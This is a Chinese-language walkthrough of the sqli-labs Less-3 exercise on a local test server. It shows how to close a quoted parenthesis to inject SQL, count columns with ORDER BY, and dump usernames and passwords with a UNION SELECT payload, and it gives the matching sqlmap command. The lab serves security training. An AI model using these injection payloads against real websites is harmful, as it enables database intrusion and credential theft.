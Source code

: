 # Less-3

**前言**

**本关特点，在前两关的基础上，sql语句上做了限制，需要提前闭合括号，当用sqlmap工具运行这类注入时，需要添加--prefix 和 --suffix这两个参数，具体如何构造还需要分析回显信息**

梅开三度，依旧是输入带值的ID作为参数

![1622097427732](1622097427732.png)

同样，在id=1后加入单引号报错，显然sql语句的闭合是非法的，这里存在sql注入

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=1'
```

![1622097723806](1622097723806.png)

## 3.1 判断sql注入的类型

分析一下上面的报错信息与前两关有所不同

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

精简一下

```mysql
''1'') LIMIT 0,1'
```

再把左右两边的单引号去掉，两个引号中间的部分才是真正构造出来的sql语句，LIMIT0，1也可以先去掉，最后留下来的就是报错的元凶，显然我们的输入id=1’，这个单引号使得原本的sql语句提前闭合引发了报错

```mysql
'1'')
```

那么可以尝试还原这条sql语句，使用$id来替换1‘，当然别忘记给这个右括号添加一个对应的左括号

```mysql
select * from users where id = ('$id');
```

所以判断这是一个单引号字符型sql注入

## 3.2 判断字段的数量

既然存在括号，那么直接上order by来判断字段数量显然会失效，需要构造一个能够绕过它的payload，对于这关来说也很简单，只需要将前面的括号提前闭合就好

```mysql
$id')payload --+
```

然后在payload中使用order by查询字段数量即可，同样也是3个字段

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=1') order by 4--+
```

![1622101429569](1622101429569.png)

## 3.3 获取用户名和密码

既然已经知道如何绕过，那么之前Less-1，Less-2里的方法便能够正常使用，因此跳过中间一些重复性步骤，直接拿到用户名和密码

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=-1') union select 1,group_concat(username),group_concat(password) from security.users--+
```

![1622101707420](1622101707420.png)

## 3.4 使用sqlmap

就本关而言，可以使用下面这条语句运行sqlmap（%23即注释#的url编码）

```shell
sqlmap -u "http://localhost:8080/sqli-labs-master/Less-3/?id=1" --prefix "')" --suffix "%23"
```

参数注解

​	--prefix添加前缀

​	--suffix添加后缀

![1622102983806](1622102983806.png)